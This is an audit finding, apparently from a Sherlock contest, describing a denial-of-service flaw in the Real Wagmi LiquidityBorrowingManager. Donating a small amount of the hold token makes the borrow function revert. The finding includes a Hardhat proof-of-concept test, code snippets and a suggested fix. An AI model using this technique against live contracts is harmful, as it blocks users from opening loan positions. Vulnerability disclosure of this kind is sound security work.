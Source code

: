 Steep Boysenberry Grasshopper

high

# DOS blocking users from opening positions on loans
## Summary

It is possible to DOS the borrow function to always revert when users call it while passing a targeted holdToken, this is done simply by transferring a small amount of the targeted holdToken directly to the LiquidityBorrowingManager, which will mess up the `_getPairBalance` function and will return messed up values that violate the actual/expected balance.

## Vulnerability Detail

The difference between `cache.borrowedAmount` and `cache.holdTokenBalance` in borrow function will always be small for example, if we print the values of `cache.borrowedAmount` and `cache.holdTokenBalance`  you will notice it is too small.

<img width="750" alt="image" src="https://github.com/sherlock-audit/2023-10-real-wagmi-ali-shehab/assets/73179781/6369a175-9c0b-4fe5-9d63-7bf0f7bcb0c2">

So if a user send small amount of token to LiquidityBorrowingManager it will cause the `cache.holdTokenBalance` to be greater than `cache.borrowedAmount` then line 
https://github.com/sherlock-audit/2023-10-real-wagmi/blob/main/wagmi-leverage/contracts/LiquidityBorrowingManager.sol#L492
will always revert when anyone try to call the borrow function.


POC:
```solidity
it("poc", async () => {
    const amountWBTC = ethers.utils.parseUnits("0.05", 8); //token0
    const deadline = (await time.latest()) + 60;
    const minLeverageDesired = 50;
    const maxCollateralWBTC = amountWBTC.div(minLeverageDesired);

    const loans = [
        {
            liquidity: nftpos[3].liquidity,
            tokenId: nftpos[3].tokenId,
        },
    ];

    const swapParams: ApproveSwapAndPay.SwapParamsStruct = {
        swapTarget: constants.AddressZero,
        swapAmountInDataIndex: 0,
        maxGasForCall: 0,
        swapData: swapData,
    };

    const params: LiquidityBorrowingManager.BorrowParamsStruct = {
        internalSwapPoolfee: 500,
        saleToken: WETH_ADDRESS,
        holdToken: WBTC_ADDRESS,
        minHoldTokenOut: amountWBTC,
        maxCollateral: maxCollateralWBTC,
        externalSwap: swapParams,
        loans: loans,
    };

    await borrowingManager.connect(bob).borrow(params, deadline);

    await WBTC.connect(alice).transfer(borrowingManager.address, ethers.utils.parseUnits("1", 1));

    const params2: LiquidityBorrowingManager.BorrowParamsStruct = {
        ...params,
        loans: [
            {
                liquidity: nftpos[4].liquidity,
                tokenId: nftpos[4].tokenId,
            },
        ],
    };

    await expect(borrowingManager.connect(bob).borrow(params2, deadline)).to.be.reverted;
});
```

you will see that it will always revert.

## Impact

DOS blocking users from opening positions on loans

## Code Snippet

https://github.com/sherlock-audit/2023-10-real-wagmi/blob/main/wagmi-leverage/contracts/LiquidityBorrowingManager.sol#L492

```solidity
uint256 borrowingCollateral = cache.borrowedAmount - cache.holdTokenBalance;
```

https://github.com/sherlock-audit/2023-10-real-wagmi/blob/main/wagmi-leverage/contracts/abstract/ApproveSwapAndPay.sol#L113-L118
```solidity
 function _getBalance(address token) internal view returns (uint256 balance) {
        bytes memory callData = abi.encodeWithSelector(IERC20.balanceOf.selector, address(this));
        (bool success, bytes memory data) = token.staticcall(callData);
        require(success && data.length >= 32);
        balance = abi.decode(data, (uint256));
    }
```

## Tool used

Manual Review

## Recommendation

use local variables to track balances instead of balance(this)?